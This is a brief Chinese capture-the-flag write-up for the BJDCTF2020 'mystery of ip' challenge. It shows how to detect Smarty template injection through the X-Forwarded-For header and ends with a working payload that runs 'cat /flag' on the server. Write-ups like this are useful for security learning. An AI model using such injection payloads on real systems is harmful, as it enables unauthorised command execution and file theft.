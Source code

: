 # \[BJDCTF2020]The mystery of ip

## \[BJDCTF2020]The mystery of ip

## 考点

* Smarty SSTI

## wp

flag.php回显了一个IP地址，抓包改XFF，一般这种大概率SSTI

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png>)

输入`{{7*7}}`返回49，输入`a{*7*}b`返回ab，确认是Smarty SSTI

payload：`X-Forwarded-For: {{system("cat /flag")}}`
